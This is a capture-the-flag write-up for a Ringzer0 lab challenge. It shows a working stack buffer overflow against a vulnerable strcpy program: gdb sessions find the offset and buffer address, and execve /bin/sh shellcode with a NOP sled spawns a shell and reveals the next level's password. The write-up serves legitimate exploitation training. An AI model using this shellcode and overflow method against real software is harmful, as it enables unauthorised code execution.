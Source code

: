 # Level 3 Ringzer0 Pwn challenges
From the source code we see that we are running a vulnerable strcpy function in the concat function

We can't send more than 128 bytes in the second parameter but we overflow the buffer because we are sending multiple inputs

after trial and error, we are getting the offset to be:
68

```text
(gdb) r $(python -c 'print "A"*68 + "CCCC"') $(python -c 'print "B"*128')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level3 $(python -c 'print "A"*68 + "CCCC"') $(python -c 'print "B"*128')
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

Now we can try to find the pointer where we can find shellcode
```text
level3@lxc-pwn-x86:/levels$ gdb -q level3
Reading symbols from level3...done.
(gdb) b 15
Breakpoint 1 at 0x80484e9: file level3.c, line 15.
(gdb) r $(python -c 'print "A"*68 + "CCCC"') $(python -c 'print "B"*128')
Starting program: /levels/level3 $(python -c 'print "A"*68 + "CCCC"') $(python -c 'print "B"*128')

Breakpoint 1, concat (buf=0xffffdab0 'B' <repeats 128 times>, 'A' <repeats 68 times>, "CCCC"..., s1=0xffffd9b0 'B' <repeats 128 times>, 'A' <repeats 68 times>, "CCCC", s2=0xffffda30 'A' <repeats 68 times>, "CCCC") at level3.c:15
15      }
(gdb) print &buf
$1 = (char **) 0xffffd9a0
(gdb) x/wx 0xffffd9a0
0xffffd9a0:     0xffffdab0
(gdb) x/wx 0xffffdab0
0xffffdab0:     0x42424242
```

So now we know that the pointer to shellcode could be at 0xffffdab0

Let's try and get shell in gdb

```text
(gdb) r $(python -c 'print "A"*68 + "\xb0\xda\xff\xff"') $(python -c 'print "\x90"*104 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level3 $(python -c 'print "A"*68 + "\xb0\xda\xff\xff"') $(python -c 'print "\x90"*104 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
String result: ��������������������������������������������������������������������������������������������������������1�Phn/shh//bi���RS���
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
process 29980 is executing new program: /bin/sh
process 29980 is executing new program: /bin/bash
level3@lxc-pwn-x86:/levels$
```
Now that we have shell with GDB, we need to get shell outside.

We learnt from challenge 1 that if we change the address by 16, it works outside

```text
level3@lxc-pwn-x86:/levels$ ./level3 $(python -c 'print "A"*68 + "\xc0\xda\xff\xff"') $(python -c 'print "\x90"*104 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
String result: ��������������������������������������������������������������������������������������������������������1�Phn/shh//bi���RS���   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
level4@lxc-pwn-x86:/levels$ cat ~/.pass
VHDY2pdYVyXi08kupbos
level4@lxc-pwn-x86:/levels$ exit
exit
```

We have shell!
The flag for the next level is 

```text
VHDY2pdYVyXi08kupbos
```


